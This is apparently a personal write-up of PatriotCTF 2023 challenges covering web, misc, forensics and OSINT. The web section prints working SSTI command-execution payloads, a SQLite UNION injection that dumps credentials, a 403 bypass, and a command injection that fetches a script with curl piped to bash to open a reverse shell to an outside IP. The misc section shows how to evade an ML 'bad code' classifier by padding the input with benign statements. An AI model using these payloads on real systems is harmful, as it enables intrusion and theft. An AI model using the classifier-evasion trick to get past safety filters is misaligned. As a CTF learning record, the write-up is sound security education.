


#ctf #patriotctf-2023 #web #ssti #python #feroxbuster #idor #broken-access-control #sqli #sqlite #Information-Disclosure #4xx-bypass #dontgo403 #command-injection #white-space-bypass #misc #python-jail-escape #python-filter-bypass #ai #Brute-Force-Attack #wpa #aircrack-ng #forensics #blender #blender-python-script #osint #wigle 
# Summary

## Certificate


## Statistic


## Challenges


# Web

## Pick Your Starter

### Info

Picking a starter is hard, I hope you can do it.

_Flag format: PCTF{}_

_Author: @angr404_

[http://chal.pctf.competitivecyber.club:5555](http://chal.pctf.competitivecyber.club:5555/)
### Solve

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/patriotctf2023/nuclei_9090]
└─$ whatweb -a 3 http://chal.pctf.competitivecyber.club:5555
http://chal.pctf.competitivecyber.club:5555 [200 OK] Country[UNITED STATES][US], HTML5, HTTPServer[Werkzeug/2.3.7 Python/3.11.5], IP[184.72.110.40], Python[3.11.5], Title[Select Your Starter Pokémon], Werkzeug[2.3.7]
```

Since it's a Flask server, discovered **SSTI** first


Tried some `subclasses` and `builtins` script, didn't work

Worked :

```bash
http 'http://chal.pctf.competitivecyber.club:5555/{{lipsum.__globals__.os.popen(request.args.c).read()}}?c=cat /flag.txt'
```


> [!NOTE] 
> Other ways from official writeups
> ```python
> http://127.0.0.1:5000/{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=whoami
> 
> http://chal.pctf.competitivecyber.club:5555/{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=cat ../flag.txt
> ```
## One-for-all

### Info

One four all or all four one?

Find all 4 parts of the flag, ez right?

_Flag format: PCTF{}_

_Author: @sau_12_

[http://chal.pctf.competitivecyber.club:9090/](http://chal.pctf.competitivecyber.club:9090/)
### Solve

#### Enum


```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/patriotctf2023/nuclei_9090]
└─$ whatweb -a 3 http://chal.pctf.competitivecyber.club:9090/
http://chal.pctf.competitivecyber.club:9090/ [200 OK] Cookies[name], Country[UNITED STATES][US], HTML5, HTTPServer[Werkzeug/2.3.7 Python/3.11.5], IP[184.72.110.40], Python[3.11.5], Werkzeug[2.3.7]
```

```bash
┌──(bravosec㉿fsociety)-[~/…/results/cozyhosting.htb/scans/tcp80]
└─$ feroxbuster -t 200 -u http://chal.pctf.competitivecyber.club:9090/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt                                              
...
200      GET      110l      246w     5120c http://chal.pctf.competitivecyber.club:9090/user
200      GET      198l      389w     4206c http://chal.pctf.competitivecyber.club:9090/
```
#### 1st Flag - IDOR


> http://chal.pctf.competitivecyber.club:9090/user?id=0


> ev3rYtH1nG}
#### 2nd Flag - Broken Access Control

There's a `name` in cookie


Change the value to `admin`, it shows a piece of the flag


> PCTF{Hang_
#### 3rd Flag - SQLI (sqlite)

A username was revealed in cookie called : `kiran`

```bash
┌──(bravosec㉿fsociety)-[/media/sf_kali-share/patriotctf2023] 
└─$ curl -d 'username=kiran' chal.pctf.competitivecyber.club:9090
["112311","one@gmail.com","kiran","nothing here"]
```

SQLI, get how much columns

```bash
username=kiran" union select 1,2,3,4; --
```

```bash
["112311","one@gmail.com","kiran","nothing here"]
```

Get db info, `version()` did not work, assumed it's sqlite

```bash
username=kiran" union select 1,2,3,sqlite_version(); --
```

```bash
["1","2","3","3.40.1"]
```

Get db schema

```bash
username=kiran" union select 1,2,3,(SELECT sql FROM sqlite_schema); --
```

```bash
["1","2","3","CREATE TABLE accounts(id int NOT NULL PRIMARY KEY , email varchar(20) unique, username varchar(20), password varchar(200))"]
```

Get data from table

```bash
username=kiran" union select 1,2,3,(select group_concat(username|| ' : ' ||password||' | ') from accounts); --
```

```bash
["1","2","3","kiran : nothing here | ,whahtwhatwhatwat : something here | ,flagishere90 : and_Adm1t_ | ,complexname9191681 : path:/secretsforyou | "]
```

> and_Adm1t_

#### 4th Flag - Information Disclosure , authorization bypass

Got path : `/secretsforyou` from sql injection

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/web/Bypasses/dontgo403]
└─$ curl -s http://chal.pctf.competitivecyber.club:9090/secretsforyou/|h2t

4BI
-------------------------------------------------------------------------------
  3N!
You donât have permission to access /secretsforyou/ on this server.
```

Bypass authorization

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/web/Bypasses/dontgo403]
└─$ ./dontgo403 -u http://chal.pctf.competitivecyber.club:9090/secretsforyou

                                                                                       .#%%:  -#%%%*.  +#%%#+.
                                                                                      =@*#@: =@+  .%%.:+-  =@*
         :::.                             ...                                       .#@= *@: *@:   *@:  :##%@-
         :::.                             :::.             ..    -:..-.    ..   ::  =%%%%@@%:=@*. :%% =*-  :@%
 .::::::::::.   .::::::.   .:::::::::.  ::::::::.  .:::::::::.  .=::..:==-=+++:.         +#.  -*#%#+.  =*###+.
.:::....::::. .:::....:::. .::::...:::. ..::::..  ::::....:::   --::..-=+*=:.
:::.     :::. :::.    .::: .:::    .:::   :::.   ::::     .:::  -=::-*#+=:
::::    .:::. ::::    :::: .:::    .:::   :::.   .:::.    :::.  +-:::=::.
 :::::.:::::.  ::::..::::  .:::    .:::   .:::.:. .:::::::::.  .+=:::::.
  ..::::.:::    ..::::..   .:::     :::    ..:::.   .....::::.   -=:.::
                                                 .:::     ::::
                                                  :::::..::::.

Target:                 http://chal.pctf.competitivecyber.club:9090/secretsforyou
Headers:                false
Proxy:                  false
User Agent:             dontgo403
Method:                 GET
Payloads folder:        payloads
Custom bypass IP:       false
Verbose:                false

━━━━━━━━━━━━━ DEFAULT REQUEST ━━━━━━━━━━━━━
200      2087 bytes http://chal.pctf.competitivecyber.club:9090/secretsforyou

━━━━━━━━━━━━━ VERB TAMPERING ━━━━━━━━━━━━━━
200       175 bytes HEAD
200       199 bytes OPTIONS

━━━━━━━━━━━━━ HEADERS ━━━━━━━━━━━━━━━━━━━━━

━━━━━━━━━━━━━ CUSTOM PATHS ━━━━━━━━━━━━━━━━
200       178 bytes http://chal.pctf.competitivecyber.club:9090/secretsforyou/..;/
200       178 bytes http://chal.pctf.competitivecyber.club:9090/secretsforyou/..%3B/
2023/09/09 23:11:29 parse "http://chal.pctf.competitivecyber.club:9090/%secretsforyou": invalid URL escape "%se"
200      4413 bytes http://chal.pctf.competitivecyber.club:9090/#secretsforyou
200      4413 bytes http://chal.pctf.competitivecyber.club:9090/#?secretsforyou
200      4413 bytes http://chal.pctf.competitivecyber.club:9090///?anythingsecretsforyou
200      4413 bytes http://chal.pctf.competitivecyber.club:9090/??secretsforyou
200      4413 bytes http://chal.pctf.competitivecyber.club:9090/?secretsforyou
200      4413 bytes http://chal.pctf.competitivecyber.club:9090/???secretsforyou

━━━━━━━━━━━━━ CASE SWITCHING ━━━━━━━━━━━━━━
```

Check the ones with length of  `178`

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/web/Bypasses/dontgo403]
└─$ http "http://chal.pctf.competitivecyber.club:9090/secretsforyou/..;/"
...
l00s3_and_
```
#### Final Flag

> PCTF{Hang_l00s3_and_Adm1t_ev3rYtH1nG}

## Flower Shop

### Info

Flowers!

_Flag format: CACI{}_

_Author: CACI | @nihilistpenguin_

[http://chal.pctf.competitivecyber.club:5000](http://chal.pctf.competitivecyber.club:5000/)
### Solve


- The password reset function seems vulnerable to command injection and SSRF, and I can control `webhook` URL

> `./app./classes./reset.class.php`


Host reverse shell on my VPS

```bash
┌──(root㉿kali)-[~]
└─# mkdir www && cd www && echo -e '#!/bin/bash\nbash -c "bash -i >& /dev/tcp/34.243.85.91/1111 0>&1"' > index.html && python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 1111
listening on [any] 1111 ...
```

Register with a crafted webhook then request password reset

```bash
https://webhook.site/b6ff89ca-8b60-4200-a9dc-9779b87d934f;curl${IFS}34.243.85.91|bash#
```


```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 1111
listening on [any] 1111 ...
connect to [34.243.85.91] from (UNKNOWN) [184.72.110.40] 55182
bash: cannot set terminal process group (131): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b72917865ad1:/var/www/html/modules$ cd ..
cd ..
www-data@b72917865ad1:/var/www/html$ grep -rin flag
grep -rin flag
admin.php:19:        <h3>CACI{FAKE_FLAG_FOR_TESTING}</h3>
www-data@b72917865ad1:/var/www/html$
```
# Misc

## ML Pyjail

### Info

An AI-powered fortress guards a treasure trove of forbidden knowledge. Legends speak of a mystical combination of Machine Learning and Python code, interwoven with an impenetrable pyjail defense mechanism. Your mission, should you accept it, is to breach this formidable barrier and unearth the secrets hidden within. Good luck

_Flag format: PCTF{}_

_Author: @sans909_

`nc chal.pctf.competitivecyber.club 7777`
### Solve

> app.py

```python
#!/usr/bin/env python3
from mlmodel import endpoint

WARNING = '\033[93m'
ERROR = '\033[91m'
END = '\033[0m'

if __name__ == "__main__":
    while True:
        user_input = input(">>> ")
        classification = endpoint.classify_local(user_input)
        if len(classification) == 0:
            print(f"{WARNING}Cannot verify...{END}")
            continue
        intent = dict(classification[0]).get('intent')
        if intent == None: continue
        try:
            if intent == 'good_code':
                exec(user_input)
            else:
                print(f"{ERROR}Bad Code Detected...{END}")
        except Exception as e:
            print(f"Oops, something broke: \n{ERROR}{e}{END}")
            pass
```

- Good Codes


- Bad Codes


Just let good code > bad code

```bash
rlwrap nc chal.pctf.competitivecyber.club 7777
```

```bash
print(open('MLjail/flag.txt').read()); print('Hello, World!'); print('Hello, World!'); print('Hello, World!'); print('Hello, World!'); print('Hello, World!'); print('Hello, World!'); print('Hello, World!'); 
```


> [!NOTE] String to ascii filter bypass
> Another way from the official writeup
> ```python
> a = './Mljail/flag.txt'
s = ""
for c in a:
  s += f"chr({str(ord(c))})+"
print(s[:-1])
> ```
> Exploit
> ```python
> print(open(chr(46)+chr(47)+chr(77)+chr(76)+chr(106)+chr(97)+chr(105)+chr(108)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116), 'r').read())
> ```
## Flag Finder

### Info

All you have to do is guess the flag.

_Flag format: pctf{}_

_Author: @shadowbringer007_

`nc chal.pctf.competitivecyber.club 4757`
### Solve

Not an ideal way to achieve concurrency, but gets the thing done under 1 minute

```python
import string
from pwn import remote, info, context
from concurrent.futures import ThreadPoolExecutor


# Surpress debug info
context.log_level = "ERROR"
flag = "pctf{"


def try_char(c:str, length: int):
    global flag
    if len(flag) == length:
        return
    
    payload = (flag + c).ljust(19, '~').encode()
    print(f"[*] Tying : {payload}")
    
    io = remote('chal.pctf.competitivecyber.club', 4757)
    io.sendline(payload)
    res = io.recvall()
    
    if res.decode().count('User input') == length:
        if len(flag) == length:
            return
        flag = flag + c
        info(flag)
    io.close()


with ThreadPoolExecutor(max_workers=32) as executor:
    for length in range(6, 19):
        for c in string.printable:
            executor.submit(try_char, c, length)
            
            
print(f"[+] Done : {flag}}}")
```

> pctf{Tim3ingI8N3at}
## WPA

### Info

I really need to get on my friends WiFi, but he won't give me the password. I think he think's I'll mess around on his network. I started a packet capture and left it running a while, I think someone connected to the network before I stopped the capture. Can you help me?

_Flag format: PCTF{password}_

_Author: @elbee#3779_

### Solve

```bash
aircrack-ng -w /opt/wordlists/rockyou.txt Misc/savedcap.cap
```


> PCTF{qazwsxedc}

# Forensics
## Evil Monkey 1

### Info

One of the employees at our studio "Meatball Works" sent out this blend file to an external company for review and lighting reworks. When it came back, our EDR system captured malicious traffic that seemed to be coming from Blender. One of the SOC analysts found some sort of encrypted shellcode in the file but doesn't know the encryption key. Can you find it?

_Flag format: PCTF{decryption_key}_

_Author: @meatball5201_
### Solve

Install blender and view the embedded python script


Encryption key was hidden in project's `driver` namespace



Select modeling and found hidden monkey, they key was hidden in its properties


> PCTF{Th3_EV!L_M0NK3Y!}
# OSINT

## Rouge Access Point

#### Info

We've received a notice from our companies EDR software that a laptop was attacked while they were on WFH. The employee says they were at home when it happened, but we suspect they were using public wifi. Our EDR software managed to capture the BSSID of the wifi (46:D1:FA:63:BC:66) network before it got disconnected, but not the SSID. Can you still find the network they were connected to?

Flag format: PCTF{SSID}

Author: @meatball5201
#### Solve

Simple wigle advanced search

> https://wigle.net/search?netid=46%3AD1%3AFA%3A63%3ABC%3A66


> PCTF{RedsTableFreeWifi}

## Satellite Killer

### Info

Most satellites get to live out a relatively peaceful existence in space until their orbit eventually decays and they fall back to Earth.

Most.

Back in the 80's, one poor satellite met a premature end at the hands of an ASM-135.

I would like you to find the date that the second-to-last piece of its debris fell back down to Earth (Or more realistically, its decay date).

In addition, please give me its object ID/International Code.

*Flag format: PCTF{OBJECTID_YEAR-MONTH-DAY} *

_For example, for a piece of debris from the Falcon 9, the flag would look like this: PCTF{2023-028BG_2023-3-15}_

_Author: necktie5740_

### Solve

Search : `1980 ASM-135 destroy`

> https://en.wikipedia.org/wiki/ASM-135_ASAT


Looks like **SATCAT** will be the source


> https://celestrak.org/satcat/search.php

Search for the Satellite : `Solwind`


> [!important] 
> Needs to uncheck all filters to show the result we need

Sort by `decay` date, there it is! The `second-to-last` piece



> PCTF{1979-017AN_2002-12-06}
